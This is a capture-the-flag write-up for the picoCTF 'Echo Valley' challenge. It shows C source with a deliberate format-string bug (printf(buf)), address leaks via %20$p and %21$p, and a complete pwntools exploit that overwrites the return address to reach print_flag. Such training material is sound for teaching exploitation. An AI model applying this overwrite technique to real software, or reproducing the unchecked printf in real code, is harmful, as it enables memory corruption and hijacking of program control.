

After launching the instance, we are given the description:

**The echo valley is a simple function that echoes back whatever you say to it. 
But how do you make it respond with something more interesting, like a flag?
Download the source: [valley.c](https://challenge-files.picoctf.net/c_shape_facility/3540df5468ae2357d00a7a3e2d396e6522b24f7a363cbaff8badcb270d186bda/valley.c)
Download the binary: [valley](https://challenge-files.picoctf.net/c_shape_facility/3540df5468ae2357d00a7a3e2d396e6522b24f7a363cbaff8badcb270d186bda/valley)
Connect to the service at `nc shape-facility.picoctf.net 49319`**

and also the hint:

**Hints: Ever heard of a format string attack?**

After downloading the source and the binary, we take a look at the source code: 
```
#include <stdio.h>

#include <stdlib.h>

#include <string.h>

  

void print_flag() {

    char buf[32];

    FILE *file = fopen("/home/valley/flag.txt", "r");

  

    if (file == NULL) {

      perror("Failed to open flag file");

      exit(EXIT_FAILURE);

    }

    fgets(buf, sizeof(buf), file);

    printf("Congrats! Here is your flag: %s", buf);

    fclose(file);

    exit(EXIT_SUCCESS);

}

  

void echo_valley() {

    printf("Welcome to the Echo Valley, Try Shouting: \n");

  

    char buf[100];

  

    while(1)

    {

        fflush(stdout);

        if (fgets(buf, sizeof(buf), stdin) == NULL) {

          printf("\nEOF detected. Exiting...\n");

          exit(0);

        }

  

        if (strcmp(buf, "exit\n") == 0) {

            printf("The Valley Disappears\n");

            break;

        }

  

        printf("You heard in the distance: ");

        printf(buf);

        fflush(stdout);

    }

    fflush(stdout);

}

  

int main()

{

    echo_valley();

    return 0;

}
```


The *vuln.c* program has 3 functions: main(), echo_valley(), and print_flag(). 
Looking at echo_valley we immediately see a ```printf(buf);```that uses the buffer size 100 without format parameters. As such, we can assume this is what the hint was referring to. 

I took a look at the executable binary file with ```checksec``` 


Most of the protections were enabled, so instead of trying to overflow, we will need to replace the return value of the stack in the echo_valley() function to the address of the print_flag() function.

With this information in mind, I tried inputting multiple %p to find addresses to leak. 

Using **%21$p**, we get the return value
![[Pasted image 20250324192246.png]]

and **%20$p** is the stack leak
![[Pasted image 20250324192511.png]]

Using this information, we found the offset using GDB to get the return address of the echo_valley() function and also the print_flag() address. 

Here is our python code that automates this process using pwntools
```
from pwn import *

  

context.update(arch="amd64")

  

def leak(p):

    payload = b"%20$p.%21$p"

    p.sendlineafter(b"Try Shouting: \n", payload)

    return p.recv().strip().split(b" ")[-1]

  

#p = process("./valley")

p = remote("shape-facility.picoctf.net", 64728)

  

all_leaks       = leak(p)

pie_leak        = int(all_leaks.split(b".")[1], 16)

stack_leak      = int(all_leaks.split(b".")[0], 16)

pie_base        = pie_leak - 0x1413

print_flag      = pie_base + 0x1269

target_address  = stack_leak - 8

  

print("[+] pie leak: 0x%x" % pie_leak)

print("[+] stack leak: 0x%x" % stack_leak)

print("[+] pie base @ 0x%x" % pie_base)

print("[+] print_flag @ 0x%x" % print_flag)

print("[+] overwrite target @ 0x%x (echo_valley() return address)" % target_address)

  

# write the upper 4 bytes

writes  = {target_address: print_flag & 0xffffffff }

payload = fmtstr_payload(6, writes)

print(payload)

p.sendline(payload)

p.recvuntil(b"You heard in the distance: ")

  

# write lower 4 bytes

writes = {target_address + 4: print_flag >> 32 }

payload = fmtstr_payload(6, writes)

p.sendline(payload)

p.recvuntil(b"You heard in the distance: ")

  

p.sendline(b"exit")

p.recvuntil(b"The Valley Disappears\n")

  

p.interactive()
```

After running the code and remotely connecting to the server we get the flag. 
![[Pasted image 20250324193118.png]]
